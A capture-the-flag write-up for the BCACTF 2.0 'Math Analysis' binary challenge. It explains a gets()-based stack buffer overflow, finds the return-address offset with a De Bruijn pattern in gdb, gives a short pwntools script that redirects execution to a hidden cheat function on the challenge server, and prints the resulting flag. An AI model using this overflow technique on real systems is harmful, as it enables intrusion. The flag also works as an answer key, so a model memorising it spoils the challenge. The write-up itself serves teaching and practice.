



# BCACTF 2.0 – Math Analysis

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Congratulations, you've graduated from letters! Now, let's move on to numbers.
>
> From the BCA Course Catalog:
>
>>Analysis I includes linear and quadratic functions, polynomials, inequalities, functions, exponential and logarithmic functions, conic sections, and geometry.
>
> That's a lot of cool stuff! I think you'll have tons of fun learning about functions in this class!

## Solution

The challenge page provides us with a [binary](Backup/analysis) and the [C code](Backup/analysis.c) it was compiled from.

Looking at the code, it becomes clear that the `cheat` function is what we're after. And the vulnerability that lets us do that is yet another buffer overflow. The program uses [gets](https://man7.org/linux/man-pages/man3/gets.3.html) to read our input into a 50 byte buffer.

The easiest way to figure out after how many bytes the return address is overwritten is to make use of a [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). So I load the binary up in gdb with the [peda](https://github.com/longld/peda) installed because it has some useful helpers.

One of these helpers is `pattern create [length]`, which generates a De Bruijn sequence for us. A length of 100 should do for our purposes;



Running the program afterwards and entering this pattern as input results in a segfault on the return



The address at the top of the stack is where our return address should be located. We can find the offset with `pattern offset [pattern]`



Now that we figured out where to store the return address it's time to get the address of the `cheat` function. The intended solution was to read this from the output of the binary, because it prints the address to the console, but because the binary is not hardened with `PIE` we can simply hardcode the address, making the script very straightforward.

```python
from pwn import *

#p = process('./analysis')
p = remote('bin.bcactf.com', 49158)

offs_cheat = 0x401256

p.sendline(b"A"*72 + p64(offs_cheat))

p.interactive()
```

which results in the following output:

```
It's math time, baby!
WOOO I love my numbers and functions and stuff!!
For example, here's a number: 4198998.
What do you think about that wonderful number?
> Numbeerrrrrs!
Anyways, we have a test coming up.
Be sure to study!
bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}
```

So the flag for this challenge is:

`bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}`